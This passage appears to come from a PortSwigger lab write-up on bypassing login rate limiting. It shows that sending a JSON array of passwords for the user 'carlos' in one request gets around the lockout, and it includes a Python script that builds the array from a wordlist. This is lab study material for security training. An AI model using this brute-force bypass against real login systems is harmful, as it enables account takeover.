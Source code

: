 -  i tried for another username but it also gives `You have made too many incorrect login attempts. Please try again in 1 minute(s).` ,So it is not based on usernames but on something that identifies me as the same client.

-  then i tried to add `X-Forwarded-For` header but no luck with it
-  i noticed that the data submitted in JSON form

<br />

<img src="/assets/img/portswigger/auth/auth6_0.png" alt="auth" style="zoom:90%;" />

- i tried to submit multiple values of username and password like that but no thing changed

```json
"username":"carlos","password":"123123",
"username":"carlos","password":"baseball",
"username":"carlos","password":"abc123",
"username":"carlos","password":"football",
"username":"carlos","password":"monkey",
"username":"carlos","password":"letmein",
"username":"carlos","password":"dragon",
```

- finally i tried to submit `carlos` username with array of all passwords in JSON form and it gave `302` 

you can use this python script to generate the array

```python
import json
arr = []
with open('password.txt') as file:
    for i in file:
        arr.append(i.rstrip())
print(json.dumps(arr))
file.close()
```
